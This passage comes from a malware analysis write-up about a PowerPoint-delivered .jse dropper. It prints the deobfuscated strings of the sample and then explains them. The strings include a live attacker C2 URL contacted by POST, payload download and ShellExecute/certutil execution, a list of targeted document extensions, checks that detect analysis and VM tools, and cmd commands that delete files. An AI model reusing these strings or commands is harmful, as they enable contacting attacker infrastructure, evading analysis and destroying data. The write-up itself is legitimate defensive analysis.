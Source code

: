 ```
transe9e45de07d328e8d46adf4357840be5eWScriptEnumeratorGetObjectActiveXObjectCreateObjectWScript.ShellScripting.FileSystemObjectADODB.StreamShell.ApplicationExpandEnvironmentStrings%TEMP%ExpandEnvironmentStrings%USERPROFILE%fromCharCodefromCharCodefloorrandomMsxml2.ServerXMLHTTPseter64.jseNameSpacehttps://185.159.82.38:45000/C/pollos.php?add=MZPOSTScriptFullName2000000-decode 4294967295Drives*.doc *.xls *.pdf *.rtf *.txt *.pub *.odt *.ods *.odp *.odm *.odc *.odb *.wps *.xlk *.ppt *.mdb *.accdb *.pst *.dwg *.dxf *.dxg *.wpd *.rtf *.wb2 *.mdf *.dbf *.psd *.pdd *.eps *.ai *.indd *.cdr img_*.jpg *.dng *.3fr *.arw *.srf *.sr2 *.bay *.crw *.cr2 *.dcr *.kdc *.erf *.mef *.mrw *.nef *.nrw *.orf *.raf *.raw *.rwl *.rw2 *.r3dsaymyname.txtPopupError: Cannot open illustration.ErrorOpenTextFileReadLineClosetesbblengthcharCodeAtindexOfAppDatawinmgmts:{impersonationLevel=impersonate}!.rootcimv2ExecQuerySelect * from Win32_ProcessExecQuerySelect * from Win32_OperatingSystematEnditemCaptionitemVersionmoveNextatEnditemExecMethod_GetOwnerName*ExecutablePath*Domain|UserfromCharCodefromCharCodemoveNextindexOfProcmonindexOfWiresharkindexOfTempiexplore.exeindexOfProcessHackerindexOfvmtoolsdindexOfVBoxServiceindexOfpythonindexOfProxifier.exeindexOfJohnson-PCindexOfImmunityDebugger.exeindexOflordPE.exeindexOfctfmon.exe*JOHN-PCindexOfBehaviorDumperindexOfanti-virus.EXEindexOfAgentSimulator.exeindexOfVzService.exeindexOfVmRemoteGuestActionScrew you guys, Im going home!!!!CreateTextFileWriteLineClosefuck it..floorrandom.exefloorrandom.gopsetOptionMSXML&floorrandom&uid=abs&out=&ver=opensetRequestHeadercache-controlprivatesendfromCharCodefromCharCodesendstatusresponseTextsubstringOpenTypeWriteresponseBodyPositionSaveToFileCloseCreateTextFileWriteLineCloseSleepShellExecutecertutil openFileExistsgetResponseHeaderyou_god_damn_rightCopyFileSleepFileExistsatEndmoveNextitemIsReadyDriveTypeDriveTypesubstringDriveLetterShellExecutecmd/U /Q /C cd /D DriveLetter: && dir /b/s/x >>%TEMP%\\openSleepSleepGetFileOpenAsTextStreamAtEndOfStreamReadLinesubstringindexOf.ShellExecutecmd/U /Q /C copy /Y  .jse && del /Q/F openCloseDeleteFileGetFileOpenAsTextStreamReadLinesubstringShellExecutecmdfromCharCodec start openExecProcessIDSleepShellExecutecmd/U /Q /C del /Q/F %TEMP%\*.exe && del /Q/F %TEMP%\*.gop && del /Q/F %TEMP%\*.txt && del /Q/F %TEMP%\*.log && del /Q/F %TEMP%\*.jseopenDeleteFileCloseSleep
```
Even though the deobfuscated strings are concatenated to each other, we can get a few hints of what is going on:  
- Contacts the IP we previously found with a POST request.
- Enumerates some filetypes.
- Gets all the running processes via `Select * from Wind32_ProcessExec`. This explains the previous error we got from the `box-js` regarding `Trace: win32_process.execmethod_ not implemented!`
- After getting all the running processes, it tries to find if any of them are:   
  - ProcMon  
  - Wireshark
  - ProcessHacker
  - (more tool names usually used for malware analysis)  
  So the script tries to see if it is being monitored, and if it is, it exists (with some interesting comments to say the least...)


### Reversing the final exe [pollos] -To be continued...
The final file that will be dropped (named `pollos` from the cracked hash) can be found [here](https://www.hybrid-analysis.com/sample/9efc3aa23de09f1713a2e138760a42d0a14568c86cdbb5499d2adddbe197db57/5935aeaeaac2ed0e41bfe09c).  

TBC



**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=72Ztp7NNWqc">cybercdh: <i>Malicious Powerpoint and .jse behavioural and code analysis</i></a></li>
        <li> [2] <a href="https://www.virustotal.com/gui/file/796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921">VirusTotal: <i>order&prsn.ppsx</i></a></li>
        <li> [2] <a href="https://www.sentinelone.com/blog/zusy-powerpoint-malware-spreads-without-needing-macros/">“Zusy” PowerPoint Malware Spreads Without Needing Macros</i></a></li>
    </ul>
</blockquote>